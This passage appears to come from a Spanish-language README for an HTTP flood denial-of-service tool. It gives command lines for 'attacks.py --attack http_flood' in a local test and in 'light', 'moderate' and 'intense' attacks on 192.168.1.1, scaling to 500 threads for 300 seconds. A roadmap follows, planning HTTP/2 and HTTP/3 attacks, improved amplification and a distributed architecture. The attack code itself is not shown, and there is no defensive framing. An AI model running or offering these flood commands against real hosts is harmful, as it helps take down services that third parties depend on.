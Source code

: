 
## 🎓 Ejemplos de Uso

### Prueba Local
```bash
# Terminal 1
python -m http.server 8000

# Terminal 2
python python/attacks.py --attack http_flood --target localhost --port 8000 --threads 5 --duration 10
```

### Ataque Leve
```bash
python python/attacks.py --attack http_flood --target 192.168.1.1 --port 80 --threads 10 --duration 30
```

### Ataque Moderado
```bash
python python/attacks.py --attack http_flood --target 192.168.1.1 --port 80 --threads 100 --duration 120
```

### Ataque Intenso
```bash
python python/attacks.py --attack http_flood --target 192.168.1.1 --port 80 --threads 500 --duration 300
```

---

## 🚀 Próximas Versiones

### v1.1.0
- Soporte Go completo
- Soporte Rust completo
- Soporte C/C++ completo
- Interfaz gráfica

### v1.2.0
- Ataque HTTP/2
- Ataque HTTP/3
- Amplificación mejorada
- Nuevos tipos de ataques

### v2.0.0
- Arquitectura distribuida
- Dashboard web
- API REST
- Autenticación

---